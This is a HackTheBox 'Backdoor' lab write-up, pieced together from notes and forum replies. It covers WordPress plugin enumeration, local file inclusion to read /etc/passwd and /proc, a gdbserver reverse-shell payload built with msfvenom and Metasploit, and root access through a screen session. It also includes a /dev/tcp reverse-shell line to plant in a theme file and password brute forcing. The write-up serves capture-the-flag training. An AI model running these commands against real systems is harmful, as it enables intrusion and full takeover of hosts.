

HackTheBox Writeups

#Nmap
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Discovered open port 80/tcp on 10.10.11.125
Discovered open port 22/tcp on 10.10.11.125
Discovered open port 1337/tcp on 10.10.11.125
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
| 256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_ 256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Backdoor – Real-Life
|_http-generator: WordPress 5.8.1
1337/tcp open waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
#FIRST THINGS TO DO FOR WORDPRESS foothold
#enum_all_Plugins #fast dirb http://backdoor.htb/ /usr/share/wordlists/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt
#using wpscan wpscan --url http://backdoor.htb/ --plugins-detection aggressive
##Location /opt/php-reverse-shell/php-reverse-shell/php-reverse-shell.php once you have accesss to wordpress you can edit the 404.php change the ip and port.
##edit wordpress php_pluginEditor_Themes;etc; just add... & /dev/tcp/192.168.58.103/443 0>&1'") ?> http://IP HERE/wp-content/plugins/xxx/xxx.php
#wp-scan #enum # users # themes wpscan --url <http;or;Https> -e u[1-100] -e ap -e t wpscan --url xyz.com --enumerate ap,at,cb,dbe
#wp-scan #Brute forcing users;
wpscan --url http://wordy/ --usernames admin,jens,sarah,graham,mark --passwords passwords.txt After running enum on all plugins
After running enum on all plugins
ebook-download is running an out of date version.
Running a quick search on searchsploit
More Details
#Now lets try it out:
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd -v
looks like we have LFI - Getting /etc/passwd we also have a user named user lets see if we can retrieve ssh keys.
wpscan/cmsmap takes ages to scan plugins!
User
- Find the PID for port 1337 (use burp intruder or wfuzz) wfuzz -u 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/FUZZ/cmdline' -z range,900-1000
- You will see something like this, confirming gdbserver is running on port 1337 while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"
- create a payload msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf -o /tmp/rev.elf
- Run gdb on host and then following commands target extended-remote 10.10.11.125:1337 cd /tmp remote put rev.elf rev.elf set remote exec-file /home/user/rev.elf show remote exec-file b main run
this should give shell as "user"
Root
find / -perm -4000 -ls 2>/dev/null ps -ef | grep -i screen
SUID set on screen and there is session name root screen -x root/root
************ ENJOY **************
Use LFI to get info on port 1337 using proc. As the PID is unknown, use python script to bruteforce PIDs, it'll jump at you when you find the right one ;)
I found this cmdline for PID 954 bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
but don't know what to do with it
edit: gdb> target remote 10.129.234.214:1337
now how to debug?
Read up on gdbserver exploit.
or just use metasploit exploit/multi/gdb/gdb_server_exec
Screen suid privesc - https://www.exploit-db.com/exploits/41154, its for version 4.5.0, in this machine screen version is 4.08, i think is not vulnerable. I saw that on crontabs jobs "find /var/run/screen/S-root/ -empty -exec screen -dmS root". But i'm stucked
am stuck at that point whenever i try screen -x root/root i get Must be connected to a terminal.
what am i doing wrong? [/quote]
u need to set TERM, u can do it like this
export TERM=xterm screen -x root/root
script /dev/null screen -x root/root
You need to look for processes. You can use https://github.com/mthbernardes/LFI-Enum
But you need to modify it a bit. You need to trim the respons so it do not show things you don’t want. Like the patches at the beginning or the script Tag at the end. Do it via Python and replace the curl command with your python program
Running the following nmap scan also pulls up port 1337:
sudo nmap -n -Pn -sT -p- 10.129.237.144 Nmap scan report for 10.129.237.144 Host is up (0.029s latency). Not shown: 65532 closed tcp ports (conn-refused) PORT STATE SERVICE 22/tcp open ssh 80/tcp open http 1337/tcp open waste
This Error coming because gbd using x64(64bit) and our payload is x86(32bit) and it is incompatible. To get out of this just change the target and select x86_64(64-bit) and you will now see x86_64 (64-bit) compatible payloads like "linux/x64/meterpreter_reverse_tcp or bind_tcp or whatever" try different payloads if you got any different errors like sudden death of session or any other error.
We can manually exploit gdb shit, i'll like the article and python exploit below, I tried to exploit manually but got lot of errors, so i would recommend to use metasploit exploit.
Exploiting gdbserver (Link) : http://jbremer.org/turning-arbitrary-gdb...-into-rce/ Python Exploit Link (Github) : https://github.com/jbremer/gdbservrce
FULL WALKTHROUGH:-
User:-
- msfconsole
- set lhost 10.10.14.76
- use exploit multi/gdb/gdb_server_exec
- set rhosts
- set target 1
- set payload linux/x64/meterpreter/reverse_tcp
- set rport 1337
You'll get meterpreter shell. After getting meterpreter shell type these commands
- shell
- python3 -c "import pty;pty.spawn('/bin/bash')"
You'll get user :D
ROOT
After grabbing user.txt from /home/users follow these commands:-
- export TERM=xterm
- /usr/bin/screen -x root/root
You'll get root shell ;)

For a list of the commands, type
"help"